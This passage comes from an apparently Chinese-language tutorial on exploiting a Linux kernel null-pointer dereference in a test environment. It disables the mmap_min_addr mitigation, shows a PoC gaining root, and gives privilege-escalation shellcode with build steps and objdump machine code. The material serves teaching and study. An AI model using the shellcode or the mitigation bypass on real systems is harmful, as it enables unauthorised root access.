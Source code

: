 &nbsp;&nbsp;&nbsp;&nbsp;<font size=2>这一句sysctl -w vm.mmap_min_addr="0"是什么意思？是因为在这个内核版本中内核已经有了**设置mmap的最小地址为0x1000**作为缓解措施，所以我们要关闭之。运行poc：</font></br>

```shell
/mytest # su fanda
/mytest $ ./poc
/mytest # whoami
whoami: unknown uid 0
/mytest # id
uid=0 gid=0
/mytest # exit
/mytest $ 
```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>可以看到测试成功，我们成功完成提权。</font></br>



## 附录

**get shellcode**

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>首先编写asm文件：</font></br>

```assembly
Section .text
        global _start
_start:
	xor eax,eax
	call 0xc1067fc0
	call 0xc1067e20
	ret

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>因为我比较懒，所以直接写了个脚本编译链接：</font></br>

```shell
#!/bin/sh

nasm -f elf32 null_dereference.asm  -o null_dereference.o
ld -s -Ttext=0  null_dereference.o -o null_dereference

```

&nbsp;&nbsp;&nbsp;&nbsp;<font size=2>然后直接使用objdump -s null_dereference就可以得到机器码了，不确定自己有没有写对的话就用-S参数看看汇编：</font></br>

```shell
➜  null_dereference objdump -S null_dereference

null_dereference:     file format elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:	31 c0                	xor    %eax,%eax
   2:	e8 b9 7f 06 c1       	call   0xc1067fc0
   7:	e8 14 7e 06 c1       	call   0xc1067e20
   c:	c3                   	ret   
➜  null_dereference objdump -s null_dereference

null_dereference:     file format elf32-i386

Contents of section .text:
 0000 31c0e8b9 7f06c1e8 147e06c1 c3        1........~...  
```
